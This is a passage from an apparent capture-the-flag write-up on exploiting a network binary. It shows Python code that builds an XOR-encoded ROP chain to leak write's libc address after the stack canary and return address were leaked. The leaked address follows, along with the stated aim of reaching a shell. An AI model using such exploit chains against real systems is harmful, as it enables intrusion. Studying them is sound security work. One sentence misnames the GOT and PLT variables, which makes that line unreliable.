 So after leaking the canary, RBP and return address, we construct another payload this time to leak the address of `write` (by using `write`! isn't that confusing?)

```python
gadget_pop_rsi_pop_r15_ret = text_section_base + 0xf71
gadget_pop_rdi_ret         = text_section_base + 0xf73
gadget_pop_rdx_ret         = text_section_base + 0xb53

text_section_write_got = text_section_base + 0x202020
text_section_write_plt = text_section_base + 0x910

# After leaking the necessary values,
# We create a new payload
payload = "davide" + "AA"

payload += p64(gadget_pop_rdi_ret ^ Ds)
payload += p64(0x4 ^ Ds)
payload += p64(gadget_pop_rsi_pop_r15_ret ^ Ds)
payload += p64(text_section_write_got ^ Ds)
payload += p64(0x1337)   # pop r15, dont-care
payload += p64(gadget_pop_rdx_ret ^ Ds)
payload += p64(0x8 ^ Ds)
payload += p64(text_section_write_plt ^ Ds)


# Pad to the end of buffer
payload += "B" * (1032 - len(payload))

payload += p64(canary ^ Ds)
payload += p64(buffer_addr ^ Ds)
payload += p64(text_section_leave_ret ^ Ds)

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(SERVER)
s.recv(4096)  # server hello
s.send(payload)

write_libc = s.recv(8)
print "write@libc:", hex(unpack(write_libc))
s.close()
```
Note how `text_section_write_got` and `text_section_write_got` are not the same thing! one is an entry in the GOT which is not executable, the other is the PLT stub of `write`. 

Using this ROP chain we learn:
```
write@libc: 0x7ffff7af4140
```

Awesome! we can take this offset to some LIBC database and check the libc version, and from there compute other addresses located in this area and ROP our way to a shell

### Problem, the address cannot be found in the databases!
